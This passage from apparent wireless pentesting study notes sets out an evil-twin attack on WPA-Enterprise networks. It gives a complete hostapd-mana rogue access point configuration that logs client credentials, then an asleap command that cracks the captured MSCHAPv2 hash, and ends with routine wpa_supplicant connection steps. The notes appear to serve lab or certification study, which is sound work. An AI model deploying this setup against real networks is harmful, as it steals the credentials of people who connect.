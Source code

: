     - Create `/etc/hostapd-mana/mana.eap_user`
        
        ```bash
        *     PEAP,TTLS,TLS,FAST
        "t"   TTLS-PAP,TTLS-CHAP,TTLS-MSCHAP,MSCHAPV2,MD5,GTC,TTLS,TTLS-MSCHAPV2    "pass"   [2]
        ```
        
    - Create `mana.conf` for “evil twin”
        
        ```
        ssid=<ESSID>
        
        interface=wlan0
        driver=nl80211
        
        channel=1
        hw_mode=g
        
        ieee8021x=1
        eap_server=1
        
        eapol_key_index_workaround=0
        
        eap_user_file=/etc/hostapd-mana/mana.eap_user
        
        ca_cert=/etc/freeradius/3.0/certs/ca.pem
        server_cert=/etc/freeradius/3.0/certs/server.pem
        private_key=/etc/freeradius/3.0/certs/server.key
        private_key_passwd=whatever
        dh_file=/etc/freeradius/3.0/certs/dh
        
        auth_algs=1
        wpa=3
        wpa_key_mgmt=WPA-EAP
        wpa_pairwise=CCMP TKIP
        
        mana_wpe=1
        mana_credout=/tmp/hostapd.credout
        
        mana_eapsuccess=1
        mana_eaptls=1
        ```
        
2. Capture hash of clients attempting to connect
3. Crack hash
    
    ```bash
    asleap -C <mschapv2_challenge> -R <mschapv2_response> -W <wordlist>
    ```
    

---

# Connecting to Network

Refer to the subsequent sections for the necessary wpa_supplicant conf files.

```bash
# we need to stop monitor mode and switch to managed mode
sudo airmon-ng stop wlan0
# next we need to start NetworkManager
sudo systemctl start NetworkManager.service

# or ensure wpa_supplicant is down first then run the following command
sudo wpa_supplicant -D nl80211 -i wlan0 -c <conf file name> 
# -B = background
# -D = driver (it is normally nl80211)
# -i = interface
# -c = conf file
sudo dhclient -v wlan0
```